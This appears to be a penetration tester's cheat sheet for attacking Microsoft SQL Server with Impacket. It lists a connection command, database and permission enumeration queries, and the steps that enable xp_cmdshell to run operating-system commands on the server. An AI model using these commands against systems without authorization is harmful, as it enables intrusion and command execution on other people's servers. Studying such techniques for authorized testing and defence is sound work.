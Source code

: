 # MSSQL
**Using some Impacket tools**

## Connecting
```bash
mssqlclient.py <user>@<% tp.frontmatter.target_ip %> -windows-auth
```

### Database enumeration
**After being connected**
```bash
select name from sys.databases 
```

```bash
EXEC sp_databases
```

```bash
SELECT * FROM fn_my_permissions(NULL, 'SERVER');
```

```bash
SELECT name FROM master.sys.databases
```

**Switch DBs**
```bash
use <db>
```

```bash
SELECT name FROM sysobjects WHERE xtype = 'U'
```

**Show all tables of DB**
```bash
SELECT * FROM <db_NAME>.INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE'
```

### Code execution
**You don't always have permissions, but good to try**

```bash
EXEC sp_configure 'show advanced options', '1'
```

```bash
RECONFIGURE
```

```bash
EXEC sp_configure 'xp_cmdshell', '1' 
```

```bash
RECONFIGURE
```

**Example of code execution (If the above commands work)**
```bash
xp_cmdshell "whoami"
```

